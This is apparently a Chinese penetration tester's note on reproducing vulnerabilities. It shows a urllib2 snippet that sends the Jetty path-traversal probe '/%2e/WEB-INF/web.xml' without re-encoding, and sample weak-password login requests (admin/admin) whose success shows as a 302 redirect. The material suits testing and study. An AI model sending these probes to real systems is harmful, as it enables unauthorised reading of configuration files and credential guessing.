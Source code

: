 **urllib2 说明**

在尝试复现jetty的漏洞时，URL当中会出现类似`/%2e/WEB-INF/web.xml`的字段在URL中，而`requests`库在发送请求的时候，会自动对URL编码后的字符串进行解码，那么就会导致发送的请求与预设的请求并不相同，此时，就可以使用`urllib2`库，去实现原封不动的对设定好的URL发送请求

实现代码示例如下：

```python
import urllib2
​
url = "http://x.x.x.x:80" + "/%2e/WEB-INF/web.xml"
req = urllib2.Request(url, headers=headers)
resp = (urllib2.urlopen(req)).read()
```

简化一下后，是这样的：

```python
resp = (urllib2.urlopen(urllib2.Request(url, headers=headers)))
text = resp.read()
codes = resp.code
```

### 偶遇302

在burpsuite的repeater中复现漏洞时，假如是弱口令漏洞，发现响应码是302，具体示一下例如下：

```bash
POST /login.php
Host:xxx
User-Agent:XXX
Content-Type: application/x-www-form-urlencoded
​
# 情况一：普通传参，正确 
name=admin&pass=admin
# 情况二：分段传参，正确 
-----------------------------215853662222818001893421125431
Content-Disposition: form-data; name="name"
​
admin
-----------------------------215853662222818001893421125431
Content-Disposition: form-data; name="pass"
​
admin
-----------------------------215853662222818001893421125431
# 情况三：json传参
{"name":"admin","pass":"admin"}
​
# 返回包
HTTP 302 OK
location: /home.php
// 如果错误：
// location: /login.php?error=fail
​
# 类似这样：
# <script>location="/home.php"</script>
```
